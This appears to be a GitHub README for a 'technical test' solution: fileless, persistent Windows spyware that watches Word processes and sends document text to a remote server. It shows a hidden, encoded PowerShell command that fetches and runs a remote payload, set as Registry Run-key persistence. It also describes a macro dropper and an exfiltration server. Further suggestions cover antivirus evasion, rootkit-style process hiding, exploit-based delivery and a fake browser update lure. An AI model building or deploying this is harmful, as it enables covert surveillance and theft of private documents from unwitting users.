





# Technical Test

Write code for Windows 10 that:

    - Is persistent (survives reboots).
    - It is as file-less as possible (should leave a minimal amount of code on disk, for as little time as possible).
    - Requires as little privileges as possible.
    - Searches for Word processes and extracts all text written (both for already open documents and for new Word instances).
    - Send the gathered data to a server.

## Solution

### Demo


### Persistence

The persistence in the execution of this software is implemented by adding an entry in the registry path: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` which is executed each time the user log in.

This payload makes a GET request to the server to load the software into memory and executes it.

```
powershell.exe -NoProfile -Noninteractive -ExecutionPolicy Bypass -WindowStyle Hidden -enc aQBlAHgAIAAoAGkAdwByACAAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA1ADYALgAxADoAOAAwADgAMAAvAG0AYQBpAG4ALgBwAHMAMQAnACkA
```



### Fileless

The code developed is 100% fileless as it does not need to write nothing on disk. It is loaded into memory during the login process for a user and all the operations are performed into memory.

#### Dropper

A very basic example of a VisualBasic macro has been added just to simulate a possible first step into the attack vector. This macro executes a powershell instance loading into memory the payload from the remote server and executing it.

### Little privileges as possible

The code does not need any special privilege, all used functionalities can be executed only with user privileges.

### Searches for Word processes and extracts all text written

This is the core of the software and it is continuing monitoring if the process WinWord is running or not through functions `Wait-ProccessStarts` and `Wait-ProccessStops`. If it is not running the software just wait for 5 seconds and make another check. If the process is running the software call to function `Get-OpenWORDDocumentsWords` which get all open Word documents, read the words inside them and make the exfiltration executing the function `Invoke-Request`. This loop is repeated each 30 seconds while the process WinWord is running.

Inside the code there are three global variables for an easy configuration of the parameters.

```
$RegistryPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
$ServerURL = "http://192.168.56.1:8080"
$Process = "Winword"
```

### Exfiltration http server

A simple python http server has been developed serving the payload for the fileless attack implementing GET method and receiving the exfiltration data through POST requests. The main code for the implementation comes from following link with the addition of other functionalities like serving files and creating files with decoded exfiltrated data.
<https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7>

During the first execution (infection) or when the computer is rebooted the payload is loaded from the server into memory executing it.



When the software fins that WinWord process starts, it send each 30 seconds the list of words to the server by a POST request encoding data y Base64. The server receives those data and created a file into disk with decoded data.







#### Running the server

To execute the server it is only need to execute the following steps:

```
pip install -r requirements.txt
python3 webserver.py
```

### Possible Enhancements

It is necessary to mention here that there are a huge number of features that can be added for AV bypassing and make more difficult possible forensics tasks.

The software implements a basic bypass of possible DLP protections the exfiltrated data is encoded in Base64 before sending to the server. A better approach can be cyphering the payload with dynamic keys encryption gotten from the server.

The PowerShell code is not obfuscated in any way making easier the comprehension of the reader. A useful tool to do that is for example <https://github.com/trustedsec/unicorn>.

If more advanced techniques are required, a better approach could be creating the  software as dll file and inject the code into a running process using the Reflective PE Injection <https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1>. Furthermore, it could be possible to create a hook into Win32 API functions NtQuerySystemInformation acting as a Rootkit hiding processes from the Task Manager and NtCreateUserProcess to launch the exfiltration method when the process WinWord starts.

For increasing the possibilities of a first execution of the software, modern vulnerabilities like Microsoft MSHTML Remote Code Execution can be used <https://github.com/lockedbyte/CVE-2021-40444>. Also, other drop techniques could be useful like creating a WASM application and try to make the user to visit it and executes the code hiding like a browser update.
